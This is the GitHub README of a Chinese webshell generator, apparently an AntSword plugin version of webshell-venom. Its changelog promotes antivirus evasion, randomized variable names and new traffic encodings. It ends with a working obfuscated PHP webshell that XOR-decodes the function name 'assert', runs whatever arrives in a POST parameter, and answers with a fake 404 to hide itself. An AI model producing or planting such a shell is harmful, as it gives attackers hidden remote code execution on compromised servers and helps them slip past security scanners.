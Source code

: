 # as_webshell_venom
webshell-venom 蚁剑版 (thx @SardineFish & @Medicean)


原项目地址:

https://github.com/yzddmr6/webshell-venom

## 关于 webshell-venom 的一个重要通知

https://yzddmr6.tk/2019/08/13/webshell-venom-notice/

# 3.2 更新日志

鸽了这么久，我来更新啦

1. 更新免杀

2. 修复已知问题:宝塔在遇到header404时会解析到他的404模版上，而不是shell上，导致无法连接，故去除头部的404，如有需要自行添加

3. 变量全员随机化，不再有固定的变量名称

4. 增加流量传输编码方式并且兼容原版，具体看这里：
https://github.com/yzddmr6/webshell-venom/tree/master/php

#  2.0 更新日志

1. 代码重构

2. 增加 asp aspx 免杀类型

### 生成 php Shell 样例

```
<?php 
header('HTTP/1.1 404');
class COMI { 
    public $c='';
    function __destruct() {
        $_0 = "\xfc" ^ "\x9d";
        $_1 = "\x4" ^ "\x77";
        $_2 = "\xb4" ^ "\xc7";
        $_3 = "\x9b" ^ "\xfe";
        $_4 = "\x93" ^ "\xe1";
        $_5 = "\xe7" ^ "\x93";
        $db =$_0.$_1.$_2.$_3.$_4.$_5;
        return @$db($this->c);
    }
}
$comi = new COMI();
@$comi->c = $_POST['yzddmr6'];
?>
```
